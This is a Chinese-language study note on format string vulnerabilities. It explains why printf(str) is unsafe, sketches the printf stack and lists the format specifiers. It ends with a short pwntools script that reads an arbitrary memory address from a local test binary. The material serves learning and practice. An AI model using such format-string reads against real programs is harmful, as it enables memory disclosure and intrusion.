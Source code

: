 #### 格式化字符串

[格式化字符串漏洞学习](https://veritas501.space/2017/04/28/%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2%E6%BC%8F%E6%B4%9E%E5%AD%A6%E4%B9%A0/)

[格式化字符串漏洞原理介绍](https://ctf-wiki.github.io/ctf-wiki/pwn/fmtstr/fmtstr_intro/)

```
char str[10]="aaaa";
printf("%s",str);	#1
printf(str);		#2
```

如上例，同样是输出str字符串，方式2就存在格式化字符串漏洞。

##### printf()函数的栈结构

```
printf("the content is %d %s %d",&num1,str1,&num2);
```

上边这行代码在实际执行的时候得到的printf()栈结构为：该情况下函数参数是从右向左依此压栈。

```
-------------高地址
”the content is %d %s %d“
num1
str1
num2
-------------低地址
```

然后在调用printf()的时候，会将第一个参数按照字符一个一个解析，如果不是''%''则正常输出，否则就将后边的参数解析并代入后再输出。

```
printf(str1);
```

如果是这种情况的话，如果字符串中没有特殊字符还好，但如果str内容特殊：%s %x %p......就会输出与函数执行过程有关的地址信息。

```
%d - 十进制 - 输出十进制整数
%s - 字符串 - 从内存中读取字符串
%x - 十六进制 - 输出十六进制数
%c - 字符 - 输出字符
%p - 指针 - 指针地址
%n - 到目前为止所写的字符数
```

-------下边是实验内容-----

##### 实现任意地址读

```
from pwn import *
context.log_level = 'debug'

cn = process('str')
cn.sendline(p32(0x08048000)+"%6$s")
#cn.sendline("%7$s"+p32(0x08048000))
print cn.recv()
```
